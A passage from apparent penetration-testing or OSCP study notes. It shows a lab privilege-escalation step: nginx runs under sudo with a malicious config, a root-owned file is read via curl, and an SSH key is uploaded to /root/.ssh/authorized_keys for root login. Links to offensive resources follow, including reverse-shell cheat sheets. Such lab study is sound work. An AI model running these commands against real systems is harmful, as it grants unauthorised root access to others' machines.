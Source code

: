 Run the nginx by using malicious conf file.
```
sudo nginx -c /tmp/exploit.conf
```

Then, we can get a file by curl command.
``` shell
curl 127.0.0.1:1337/root/root.txt
```
or access the target by ssh with root privilege:
```
ssh-keygen
<snip...>

curl -X PUT 10.129.230.87:1337/root/.ssh/authorized_keys --upload-file root.pub
ssh -i root root@<target ip>
```

# BurpSuite
## Hot Keys
https://github.com/rinetd/BurpSuite-1/blob/master/CheatSheet.md

# GraphQL
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql

# Others

## References for OSCP
### GTFOBins
This website is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.  
https://gtfobins.github.io/

## Word List
### SecLists
https://github.com/danielmiessler/SecLists

### Reverse shell cheat sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
#### php-reverse-shell
https://github.com/pentestmonkey/php-reverse-shell

#### Groovy Reverse shell
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
